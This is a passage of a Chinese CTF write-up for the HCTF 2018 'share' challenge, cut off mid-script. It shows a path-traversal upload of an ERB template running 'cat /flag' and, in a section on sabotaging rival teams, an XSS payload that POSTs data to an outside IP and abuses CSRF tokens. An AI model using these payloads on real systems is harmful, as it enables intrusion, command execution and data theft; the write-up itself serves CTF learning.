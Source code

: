 ![20181111154191501722090.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20181112141246-f953f91a-e641-1.jpg)



接着再试就可以了。此时成功拿到自己上传的文件。然而…有个卵用。

![20181111154191740758587.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141247-f99f70b6-e641-1.png)

![20181111154191742679515.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141247-f9be7222-e641-1.png)

ruby的环境，出题人肯定没有配置PHP解析。然后…该如何是好。恰好中午主办方放出了hint

```erb
<%= render template: "home/"+params[:page] %>
```

可以很明了的看出来，需要通过上传模板，然后进行包含。但是查询资料发现如下。

![20181111154191810268449.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20181112141247-f9ff76fa-e641-1.jpg)

也就是说，上传文件，必须上传到/app/views/home目录下。此时才可以进行包含。

话说之前一直傻在这里了，否则早就出了。先说下正确做法吧。

```
文件名：../../app/views/home/test.erb

文件内容：<%=`cat /flag`%>
```

编码后上传即可。此时便实现了跨目录上传。然后获取到文件名后，通过

```url
http://share.2018.hctf.io/home?page=te20181110-328-zexae3
```

即可成功包含，获取flag。



## 搅屎

做完题目后，在和出题人沟通时，意外得知了一个好玩的。

![20181111154192078348689.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141248-fa3a2750-e641-1.png)

fid只可以给一次，那么，我可以通过监听，来做到，只要出现新文件，立马给到我的账号。这样别人永远无法获得上传文件。想法很棒，但是现实却很真实，自己第二天写wp才想到要搅屎，此时复现时发现有一个队在做。加紧写出了搅屎代码。然而没卵用，刚写好，跑起来。看见那边二血已经到手。

但最后还是再服务器跑着，以防三血诞生。但是，好像并没有人继续做下去了。

```python
import requests
import re
import time

payload="""
<script>function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//139.199.107.193:2017", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e);
}
function submitRequest(authenticity_token)
{
    authenticity_token = authenticity_token.replace(/\+/g, "%2b");
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/file/Alpha_test", true);
```